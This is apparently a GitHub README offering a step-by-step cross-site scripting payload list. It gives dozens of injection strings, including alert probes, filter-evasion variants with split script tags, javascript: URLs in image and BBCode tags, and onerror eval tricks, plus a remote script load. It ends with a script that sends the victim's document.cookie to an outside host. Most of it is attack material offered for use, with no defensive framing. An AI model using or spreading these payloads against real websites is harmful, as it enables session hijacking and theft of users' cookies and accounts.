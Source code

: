 # xss_all_in_one_step_by_step_pwn
From simple to dedicated

<script>alert('ALIVE')</script>
"><script>alert('ALIVE')</script>
>>>>><<script>alert('ALIVE')</script>
">http:/yoursite.com/someshit"><IMG%20SRC="javascript <strong></strong>:alert('ALIVE');">
";!--"(fuck)=&{()} // Filters?
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
<sc<script>ript>alert<></sc</script>ript>
 
 '">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script>
<script>alert(document.cookie)</script>">
<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">
<img src="http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg">

<img src="https://png.pngtree.com/png-clipart/20190516/original/pngtree-lol-speech-bubble-stickers-png-image_3683583.jpg" lowsrc=javascript:alert(123) ></img>

<img>http://www.qwert.ru/1.jpg lowsrc=javascript:alert()</img>

<IMG SRC="javascript:alert('XSS');">

[img]http://www.qwert.ru/"/lowsrc="javascript:alert()"/1.jpg[/img]

[img]http://www.qwert.ru/"/lowsrc=javascript:alert()/1.jpg[/img]

(img source="http://www.qwert.ru/"/lowsrc="javascript:alert()"/1.jpg)

///////
<script>
  img = new Image();
  img.src = "http://antichat.ru/cgi-bin/s.jpg?"+document.cookie;
</script>
